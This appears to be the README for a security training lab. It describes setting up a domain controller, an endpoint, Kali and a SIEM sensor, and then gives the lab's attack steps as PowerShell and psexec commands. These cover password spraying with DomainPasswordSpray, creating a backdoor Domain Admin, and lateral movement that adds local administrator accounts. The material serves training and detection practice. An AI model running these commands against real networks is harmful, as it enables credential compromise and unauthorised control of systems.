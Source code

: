# Lab Setup

## Infrastructure
- Your infrastructure can really be hosted anywhere.
_Locally via vmware, virtualbox, etc
_In the cloud via Azure, GCP, AWS
_Prod? (j/k)

- They should be in all the same network 

### 1. Windows Domain Controller
- Specs
_ supported OS version
_ 

### 2. Windows Endpoint
- Joined to above domain
- Download and install [Wireshark](https://www.wireshark.org/)
### 3. Kali Linux
### 4. Optional - Whatever you need for SIEM?
In my case you will see in the demos that I'm using a Blumira sensor. This is an Ubuntu box with a docker container that has a [Blumira](https://www.blumira.com) sensor installed on it. Because this isn't a SIEM training, it's difficult to go through a full lab setup of something like ELK or Splunk. 

## Files/Scripts/Commands

1. [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
_ Right-click, run powershell as admin
```
CD *directory that you've cloned the powershell script into*
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\DomainPasswordSpray.ps1
https://github.com/dafthack/DomainPasswordSpray
Cd C:/DNDShare
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain forgottenforest.local -PasswordList passlist.txt -OutFile sprayed-creds.txt
```
2. Creating a Domain Admin
- Create a DNDUsers OU in Active Directory Users & Computers on the DC
```
Set-ExecutionPolicy Unrestricted
Import-Module ActiveDirectory
New-ADUser -Name "HP Lovecraft" -GivenName "HP Lovecraft" -SamAccountName "hplovecraft" -UserPrincipalName "hplovecraft@forgottenforest.local" -Path "OU=DNDUsers,DC=domain,DC=local" -AccountPassword(Read-Host -AsSecureString "Type Password for User") -Enabled $true
Add-ADGroupMember -Identity “Domain Admins” -Members hplovecraft
```
3. Data Exfil & Network Forensics


4. Lateral Movement
- Psexec add user to another host
```
CD into psexec directory
psexec.exe \\MagicRainbowPC.domain.local -u DNDUser -p passwordhere cmd
net user MyNewUser MyPassword#@$ /add
net localgroup administrators MyNewUser /add
```
